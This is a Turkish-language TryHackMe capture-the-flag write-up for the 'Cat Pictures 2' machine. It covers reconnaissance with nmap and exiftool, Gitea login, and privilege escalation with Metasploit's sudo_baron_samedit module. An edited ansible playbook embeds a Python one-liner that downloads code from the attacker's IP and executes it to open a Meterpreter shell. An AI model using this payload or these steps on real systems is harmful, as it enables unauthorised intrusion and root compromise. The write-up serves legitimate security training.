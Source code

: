 ```yaml
---
title: 'TryHackMe | Cat Pictures 2 WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ansible, gitea, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_cat_pictures2/
image:
  path: logo.webp
---
```


## Özet

Cat Pictures 2, gitea servisinde paylaşılmış bir ansible dosyasını çalıştıran, kolay seviye bir linux makinedir. Exiftool aracılığıyla bulduğumuz kullanıcı bilgilerini kullanarak gitea servisine giriş yapacak ve paylaşılan tek repo içerisindeki playbook.yaml dosyasına reverse shell komutumuzu yapıştıracağız. Bağlantı sonrasında ise `baron samedit` exploitinden yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.224.169
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 03:12 EDT
Nmap scan report for 10.10.224.169
Host is up (0.091s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 ve 8080 numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı portun incelenmesi

![](1.webp){: width="1000" height="500" }

Ana sayfada kedilerin bulunduğu bir albüm var. Albümdeki resimleri incelerken bir resmin açıklamasında meta verilerini kontrol etmem gerektiği ile ilgili bir yazı ile karşılaştım.

![](2.webp){: width="1200" height="600" }

Exiftool ile dosyanın meta verilerini çıkardığımızda "title" parametresinin içerisinde 8080 numaralı HTTP servisinde bulunan bir dosya yolunu gösterdiğini görüyoruz.

```console
$ exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
...
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
...
```

Bu dosyanın içerisinde ise kullanıcı bilgileri ile beraber gitea uygulamasının ve üzerinde paylaşılmış olan bir uygulamanın bulunduğu port numarası yer alıyor.

```console
$curl 10.10.224.169:8080/764efa883dda1e11db47671c4a3bbd9e.txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: ****
password: ****

ansible runner (olivetin): port 1337
```

### 3000 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Verilen kullanıcı bilgileri ile gitea uygulamasına giriş yaptıktan sonra kullanıcının repolarını görmek için profil sayfasına gittim. Burada `ansible` adında bir repo bulunuyor. İçerisinde ise bulmamız gereken bayraklardan biri ve bir playbook.yaml dosyası bulunuyor. playbook.yaml dosyasının içeriğini aşağıda görüyorsunuz.

```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

### 1337 numaralı portun incelenmesi

![](4.webp){: width="1200" height="600" }

Burada bir takım işler yapabileceğimiz ve yaptığımız işlerin kayıtlarını görüntüleyebileceğimiz bir uygulama bulunuyor.

![](5.webp){: width="1000" height="500" }

## Sömürü aşaması

1337 numaralı portta çalışan uygulamadaki `run ansible` seçeneği büyük ihtimalle 3000 numaralı portta çalışan gitea sayfasındaki ansible dosyasını çalıştırıyor. Bu dosyanın komut çalıştırıldığı yere shell alabileceğimiz bir komut girer ve 1337 numaralı porttaki `run ansible` butonuna tıklarsak shell alabiliriz. Öncelikle dosyayı düzenleyelim.

```yaml
---
- name: Test
  hosts: all                                  # Define all the hosts
  remote_user: bismuth
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: python3 -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://10.21.66.61:8080/n9trzcfCpQLzCS', context=ssl._create_unverified_context());exec(r.read());"
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Dosyayı düzenledikten sorna 1337 numaralı porta dönüyor ve `run ansible` butonuna tıklıyoruz. Bir kaç saniye içinde komut çalıştırılıyor ve bağlantımızı alıyoruz.

![](6.webp){: width="1200" height="600" }

## Yetki yükseltme

### root

Sistemdeki zafıylıkları tespit etmek için metasploitte bulunan `linux exploit suggester` modülünü kullanacağım.

```console
(Meterpreter 1)(/home/bismuth) > run post/multi/recon/local_exploit_suggester
 1   exploit/linux/local/ansible_node_deployer                           Yes                      The target appears to be vulnerable. ansible playbook executable found
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 6   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.1.4
 7   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
 9   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1 is vulnerable, but unable to
```

Tarama sonucunda sistemde bir çok zafiyetin barındığını öğreniyoruz. İlk baştaki `ansible_node_deployer` eploitini önermesinin sebebi biraz önce düzenlemiş olduğumuz playbook.yaml dosyası olabilir. Onu görmezden gelip diğer exploitleri kullanarak yetki yükseltmeye çalışalım.

```console
[msf](Jobs:2 Agents:1) exploit(linux/local/sudo_baron_samedit) >> exploit
[*] Started reverse TCP handler on 10.21.66.61:4003 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
[*] Using automatically selected target: Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)
[*] Writing '/tmp/OJAAkP.py' (763 bytes) ...
[*] Writing '/tmp/libnss_Hcwd/DJ .so.2' (548 bytes) ...
[*] Sending stage (3045380 bytes) to 10.10.224.169
[+] Deleted /tmp/OJAAkP.py
[+] Deleted /tmp/libnss_Hcwd/DJ .so.2
[+] Deleted /tmp/libnss_Hcwd
[*] Meterpreter session 2 opened (10.21.66.61:4003 -> 10.10.224.169:59382) at 2025-03-24 03:56:49 -0400

(Meterpreter 2)(/tmp) > cd /root
(Meterpreter 2)(/root) > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
...
100644/rw-r--r--  33    fil   2022-11-07 14:26:43 -0500  flag3.txt
(Meterpreter 2)(/root) > cat flag3.txt 
6d2***971
```

Exploitlerin bir çoğu eksik araç veya yetki yüzünden çalışmadı. Ancak `sudo_baron_samedit` exploiti ile yetki yükseltebildim.
